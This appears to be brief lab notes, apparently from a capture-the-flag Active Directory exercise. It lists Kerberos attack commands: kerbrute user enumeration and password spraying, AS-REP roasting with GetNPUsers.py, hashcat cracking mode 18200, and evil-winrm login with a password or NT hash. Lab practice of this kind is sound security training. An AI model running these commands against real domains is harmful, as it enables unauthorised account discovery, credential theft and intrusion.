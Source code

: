 # Attacktive Kerberos

## Kerberos User Enumeration

```
./kerbrute_linux_amd64 userenum -d <fqdn> --dc <domain_controller> userlist.txt-o valid_users.txt
```   

## Kerberos Password Spray

```
./kerbrute_linux_amd64 passwordspray -d <fqdn> domain_users.txt PasswordString
```

## AsepRepRoast

```
GetNPUsers.py spookysec.local/ -usersfile valid_users.txt -dc-ip 10.10.51.196
```

Using the list of valid usernames, check if any can be asepreproasted using getnpusers 

## Hashcat

Crack with mode 18200 which is for Kerberos 5 AS-REP etype 23

## Evil-WinRM

```
evil-winrm -i <ip> -u <username> -p <password> -H <NThash>
```